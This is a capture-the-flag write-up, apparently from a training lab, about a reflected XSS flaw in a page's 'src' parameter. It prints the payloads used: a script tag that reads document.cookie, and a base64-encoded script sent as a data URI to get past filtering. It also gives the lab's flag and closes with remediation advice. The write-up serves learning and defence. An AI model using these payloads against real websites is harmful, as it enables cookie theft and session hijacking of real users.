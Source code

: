 # situation

The thing here is that it uses the image source to load the image. So you can directly create data in url.

when we clic on nsa image website open this page : 

## http://192.168.56.101/?page=media&src=nsa
we have a way to charge src we want so we can do xss attack

we try  http://192.168.56.101/?page=media&src=Montpellier<script>alert(document.cookie);</script> 

send to a page white sorry wrong answer + error 404 jpg

I think server read <script> and sanityze it. 

The URL contains a src field, so we can assume that it loads documents from the server that are located in src
It is explained in a XSS Using Code Encoding data section of this site: https://owasp.org/www-community/attacks/xss/


I am trying to encode <script>alert('coucou')</script> in base 64 and it gives me : PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

It s explained here : https://owasp.org/www-community/attacks/xss/
at section : XSS Using Code Encoding
so we try : http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=
and give us that : THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

flag : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
# problem
 that allows an attacker to inject malicious code (usually JavaScript) into a web page visited by a user. This malicious code can then be executed by the user's browser, allowing the attacker to steal sensitive information, such as authentication cookies, or perform malicious actions on the user's browser.



# solution
By avoiding directly inserting the data from the URL into the page, and by passing IDs that would point to images (in the DB)
Dont use the url to choose the data you are going to load.
Check and sanityze requests you receive. 
The best in this case would have been t make a tab with images names and urls like in database.